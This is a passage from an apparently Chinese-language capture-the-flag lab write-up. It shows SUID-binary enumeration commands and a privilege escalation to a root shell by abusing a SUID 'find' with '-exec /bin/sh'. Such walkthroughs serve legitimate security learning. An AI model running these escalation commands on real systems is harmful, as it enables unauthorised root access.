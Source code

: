 - 根据提示进到根目录下，但是提示没有权限

![6d9b80a3-a0bc-441f-84ea-ce8497f7fb1e](./images/6d9b80a3-a0bc-441f-84ea-ce8497f7fb1e.png)

- 此时，我们想到flag3中提到的几个关键词，我们可以利用一些方法进行提权

- 以下命令可以查看当前系统上运行的所有SUID可执行文件

```plain
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```

- 看到有find命令

![0a647e18-e436-4936-9972-7e6ea1c250e6](./images/0a647e18-e436-4936-9972-7e6ea1c250e6.png)

- 利用命令提权

```plain
find root -exec '/bin/sh' \；
```

![88c75a97-b9e6-4b1a-a408-a014dae31e69](./images/88c75a97-b9e6-4b1a-a408-a014dae31e69.png)
